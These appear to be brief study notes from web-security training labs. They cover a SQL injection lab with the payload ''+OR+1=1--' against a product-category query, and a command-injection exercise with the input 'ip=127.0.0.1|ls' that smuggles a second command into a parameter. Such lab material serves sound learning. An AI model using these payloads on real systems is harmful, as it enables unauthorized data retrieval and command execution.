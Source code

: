 
### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1 ```

``` '+OR+1=1-- ```

## Other Injection Operators

>**Q. Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```sh
ip=127.0.0.1|ls
```
